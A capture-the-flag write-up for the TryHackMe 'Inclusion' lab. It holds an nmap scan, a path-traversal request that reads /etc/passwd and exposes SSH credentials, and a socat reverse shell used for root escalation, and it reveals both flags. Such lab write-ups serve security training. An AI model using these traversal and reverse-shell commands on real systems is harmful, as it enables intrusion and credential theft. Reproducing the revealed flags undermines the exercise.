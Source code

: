 # Inclusion
![](https://raw.githubusercontent.com/Adel-Ahmed777/TryHackMe-Writeups/main/TryHackMe%20Images/LFI-room-pic.png)

## Task 1
### Machine Deployment

## Task 2
### conducting nmap scan
```
sudo nmap -sC -sV -oN nmap/namp-scan 10.10.139.218

Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 16:17 AEDT
Nmap scan report for 10.10.139.218
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.41 seconds
```

### Execute an LFI attack
```
curl http://10.10.139.218/article?name=../../../../../../etc/passwd

<!DOCTYPE html>

<html>

    <body>



            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false




    </body>

</html>
```
use the found credentials to connect through ssh
```
#falconfeast:rootpassword
```
### Connect through ssh
```
ssh falconfeast@10.10.139.218
```

use the following two commands to view the user flag

```
ls
cat user.txt
```

### User Flag

<details><summary>CLICK TO REVEAL</summary>
<p>

```
60989655118397345799
```

</p>
</details>

### Escalate to root privileges
Let's check what privileges the current user has through the following command:
```
sudo -l

Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
The output shows that we can execute socat on the falconfeast user. gtfobins website can provide steps pn how to use the socat tool.

First, run an netcat listener in a new terminal window:
```
nc -lvnp 1234
```
Then runf the following command on the falconfeast user from the gtfobins website after I changed the $RHOST to my tunnel ip and $RPORT to 1234.
```
sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
after that I got a root shell. Then, I made sure that the shell is stabilised:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then cd to the root directory and list the root flag
```
cd root
ls
```

### Root Flag

<details><summary>CLICK TO REVEAL</summary>
<p>

```
42964104845495153909
```

</p>
</details>
